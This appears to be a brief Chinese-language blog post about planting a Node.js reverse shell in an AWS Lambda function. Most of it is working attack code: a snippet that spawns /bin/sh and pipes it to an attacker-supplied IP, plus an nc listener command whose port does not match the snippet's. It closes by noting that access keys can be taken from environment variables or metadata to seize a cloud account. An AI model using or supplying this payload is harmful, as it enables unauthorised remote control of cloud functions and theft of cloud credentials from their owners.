

AWS Lambda Node.js 反弹shell
Nov 19, 2019
0x00 前言
原本在测AWS Lambda，后来变成研究Node.js反弹shell了，hhh。
0x01 被攻击端
直接套到lambda函数里就行了1
2
3
4
5
6
7
8
9
10
11
12(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(8080, "此处替换为攻击端IP", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/;
})();
0x02 攻击端
1 | nc -lvnp 8820 |

0x03 后记
这就就是云服务接管比直接的服务器被控的危害更大，就是可以在环境变量或者元数据中拿AKSK，然后权限配置不当的话，可以直接控了整个云账号了。